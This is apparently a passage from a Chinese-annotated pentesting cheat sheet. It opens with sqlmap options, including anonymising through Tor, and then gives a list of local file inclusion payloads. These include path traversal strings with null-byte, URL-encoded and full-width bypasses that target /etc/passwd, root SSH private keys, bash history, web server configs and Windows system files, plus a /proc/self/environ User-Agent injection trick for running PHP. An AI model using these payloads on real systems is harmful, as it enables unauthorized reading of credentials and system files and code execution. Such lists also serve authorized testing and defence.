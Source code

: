         - Thread: `--threads=10`
        - Level: `--level=3`
            - default: 1
        - `--technique`
            - default: `BEUSTQ`
        - Cookie: `--cookie="abc=55667788"`
        - Tor: `--tor --check-tor --tor-type=SOCKS5 --tor-port=9050`

# LFI

## Testing Payload

### Linux / Unix

- `./index.php`
- `././index.php`
- `.//index.php`
- `../../../../../../etc/passwd`
- `../../../../../../etc/passwd%00`
    - 仅在5.3.0以下可用
    - magic_quotes_gpc需为OFF
- `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`
- `ＮＮ/ＮＮ/ＮＮ/etc/passwd`
- `/var/log/apache2/error.log`
- `/var/log/httpd/access_log`
- `/usr/local/apache2/conf/httpd.conf`
- `/etc/apache2/apache2.conf`
- `/etc/apache2/sites-available/000-default.conf`
- `/usr/local/etc/apache2/httpd.conf`
- `/etc/nginx/conf.d/default.conf`
- `/etc/nginx/nginx.conf`
- `/etc/nginx/sites-enabled/default`
- `/etc/nginx/sites-enabled/default.conf`
- `.htaccess`
- `/root/.bash_history`
- `/root/.ssh/id_rsa`
- `/root/.ssh/authorized_keys`

### Windows

- `C:/Windows/win.ini`
- `C:/boot.ini`
- `C:/apache/logs/access.log`
- `../../../../../../../../../boot.ini/.......................`
- `C:/windows/system32/drivers/etc/hosts`

## 环境变量

- `../../../../proc/self/environ`
    - HTTP_User_Agent塞php script
